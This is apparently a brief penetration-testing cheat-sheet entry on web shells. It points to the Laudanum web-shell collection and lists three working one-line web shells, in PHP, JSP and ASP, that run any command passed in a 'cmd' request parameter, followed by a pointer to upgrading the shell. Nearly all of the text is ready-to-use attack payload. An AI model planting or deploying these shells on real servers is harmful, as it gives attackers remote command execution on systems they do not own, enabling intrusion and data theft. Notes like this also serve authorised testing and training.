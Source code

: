 Refer [Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum) present in `/usr/share/laudanum`
```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

Once we get a shell, we can try to [[Upgrade Shell]]
